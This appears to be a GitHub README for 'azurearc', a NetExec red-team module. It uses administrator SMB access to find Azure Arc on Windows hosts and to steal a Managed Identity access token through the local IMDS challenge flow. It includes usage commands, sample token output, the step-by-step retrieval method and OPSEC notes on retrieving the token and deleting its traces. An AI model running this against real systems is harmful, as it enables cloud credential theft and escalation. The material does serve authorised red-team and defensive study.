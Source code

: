 # NetExec Module: `azurearc`

Enumerates Azure Arc presence on Windows targets and, when present, retrieves a **Managed Identity access token** from the local Arc IMDS endpoint using the documented **401 challenge → `.key` file → second request** flow.

- **Protocol:** SMB (requires local administrator privileges)
- **Primary use case:** Rapidly map Arc deployment and obtain a cloud-scoped token for Azure control-plane enumeration during red team engagements.

---

## ✨ Features

- **Presence check** (`CHECK=true`): Detects Arc agent by listing well-known install paths.
- **Token retrieval** (default): Executes the IMDS challenge/response locally on the target and returns JSON containing `access_token`.

---

## ⚙️ Usage

```bash
# Presence check only :
nxc smb <TARGET> -u <USER> -p '<PASS>' -M azurearc -o CHECK=true

# Token dump :
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc
[*] Attempting to retrieve Azure Arc Managed Identity access token
[+] Managed Identity token retrieved
{
  "access_token": "eyJhbGciOi...<redacted>...",
  "expires_on": "1730812345",
  "token_type": "Bearer",
  "resource": "https://management.azure.com"
}
```

## 🔍 How It Works (Behavior)
### Presence check via SMB listing:
C:\Program Files\AzureConnectedMachineAgent\*  
C:\Program Files (x86)\AzureConnectedMachineAgent\*

### Token retrieval on target (PowerShell):
1.GET http://localhost:40342/metadata/identity/oauth2/token?resource=...&api-version=...  
→ expect 401 with WWW-Authenticate: Basic realm="<path to .key>"  
Read the .key contents (requires local admin).  
2.Second GET with Authorization: Basic <key> to obtain token JSON.  
Write JSON to OUTFILE, fetch via SMB, and delete the file.



### 📸 Screenshots
<img width="1201" height="450" alt="2025-10-05_16h20_40" src="https://github.com/user-attachments/assets/41ae5d89-0756-44dd-a0a5-7d936d3879c2" />
<img width="1189" height="391" alt="2025-10-05_17h29_40" src="https://github.com/user-attachments/assets/1b362d70-aace-4c94-bcbf-beb7e0679d3d" />



### 🔒 OPSEC & Scope Notes
Local admin required on the target (matches Arc’s security boundary).\
Tokens are written to a temp file on the target only long enough to read back via SMB. the file is then deleted.
Be mindful of token lifetime and endpoint logging.


### 🧭 References
NSIDE Attack Logic  Azure Arc - Part 1 - Escalation from On-Premises to Cloud\
https://www.nsideattacklogic.de/azure-arc-part-1-escalation-from-on-premises-to-cloud/

